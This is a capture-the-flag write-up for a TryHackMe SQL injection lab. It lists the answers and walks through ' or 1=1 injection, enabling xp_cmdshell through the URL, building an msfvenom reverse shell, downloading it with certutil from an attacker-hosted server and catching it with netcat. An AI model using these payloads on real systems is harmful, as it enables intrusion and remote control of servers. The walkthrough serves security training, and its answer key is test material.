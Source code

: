 # Advent of Cyber

Day 10 - SQL Injection

----------------------------------

- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
	- `/giftsearch.php`

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
	- `ODBC Driver 17 for SQL Server`

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
	- `THM`

- What flag is in the note file Gr33dstr left behind on the system?
	- `THM`

- What is the flag you receive on the homepage after restoring the website?
	- `THM`


<details>
Steps:

1. 

----------------------------------------------------------------
2. Just by putting a ' apostrophe in the age paramater we can now cause errors and review the ODBC driver

```
age='
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14915c0b-d13a-4b1e-8589-0fa75722b507)


 ----------------------------------
First we need to enable the xp_cmdshell in the SQL server
	
```
http://10.10.82.81/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a28b6e6c-69ec-4473-bcd3-1ff56c14dd38)


We need to create a reverse shell to the victim machine

We will use the msfvenom to create the exe file

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d26ab8ab-8ded-44ae-842e-1d92b50277af)

Then we will open our python server to port 8000

```
python3 -m http.server 8000
```

Then we will put this reverse shell into the victim machine using the xp_cmdshell command 

```
http://10.10.82.81/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/49693447-2836-46b7-879f-dd781b2ac6ab)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/7ef21343-bd57-48f0-b382-85103c5d6fba)

After that we will now use NC to listen to the port that we specified

```
nc -lvnp 4444
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/40f6d77c-7d22-4643-ba3c-e4f976c2d4ac)

Then we need to execute the exe file in the victim side. Just by typing in the URL

```
http://10.10.82.81/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14f82251-691c-42e0-bf2c-26538034d7cc)

After that we will get the command line to the victim's machine now we have root access to their machine....

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d17408d8-c8c0-49f8-912f-a65033220c20)






As you can see we now restore the website using the bat file

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f6ac1f9c-00d3-435f-8ccc-13ce197f6b6c)


------------------------------------------------------
3. If we will put ' or 1=1 -- in the URL parameter we can return all of the content in the database. Along side with the THM flag.

 ![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f4e75f6b-0079-4ad9-8e1f-b2dcfca64476)

------------------------------------------------------
4. Just by a few navigations we can now see the files in the Users Desktop

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/6173ee70-32e5-407c-a3cb-d83a8607432a)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/488968cb-677a-4745-9a4b-0e4973a45164)

-----------------------------------------------------

5. Visit the /index.php we have a flag 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/71c0eff7-ac59-4da6-9122-220854f775fd)

</details>
